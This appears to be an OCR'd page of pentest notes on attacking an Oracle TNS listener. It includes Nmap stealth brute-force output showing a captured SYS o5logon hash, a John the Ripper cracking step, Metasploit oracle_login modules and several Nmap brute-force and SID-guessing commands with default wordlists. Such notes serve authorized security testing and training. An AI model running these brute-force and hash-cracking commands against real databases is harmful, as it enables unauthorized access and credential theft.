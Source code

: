 Starting Nmap 6.49BETA4 (https://nmap.org) at 2016-03-02 14:58 EST
Nmap scan report for 10.10.x.x
PORT     STATE SERVICE
1521/tcp open  oracle
| oracle-brute-stealth:
|   Accounts
|     SYS:$o5logon$1245C95384E15E7F0C893FCD1893D8E19078170867E892CE863330880E09FAD3B4832CBCFDAC1
|     A821D2EA8E3D2209DB6*4202444F49DE9AE72AE2 - 
|     Hashed valid or invalid credentials
|   Statistics
|_    Performed 211 guesses in 9 seconds, average tps: 20

john hashes.txt

User/Pass bruteforce
Different tools offered different user/pass lists for oracle:
1
2
3
4
5
6
7
	oscan: /usr/share/oscanner/accounts.default (169 lines)
msf > use admin/oracle/oracle_login # /usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv (598 lines)
msf > use scanner/oracle/oracle_login # /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt (568 lines)
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL 10.10.x.x
nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL 10.10.x.x
nmap --script=oracle-sid-brute --script-args=oraclesids=/path/to/sidfile -p 1521-1560 10.10.x.x
nmap -sT -p 1521 -d -Pn --script-trace --script oracle-brute --script-args "oracle-brute.sid=orcl, brute.credfile=/usr/share/nmap/nselib/data/oracle-default-accounts.lst" 10.10.x.x # /usr/share/nmap/nselib/data/oracle-default-accounts.lst (687 lines)

I have mixed all of them and removed duplicates:
users-oracle.txt
pass-oracle.txt
Brute Force
Now, that you know a valid SID and valid credentials. To connect to the database you need the tool: sqlplus
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19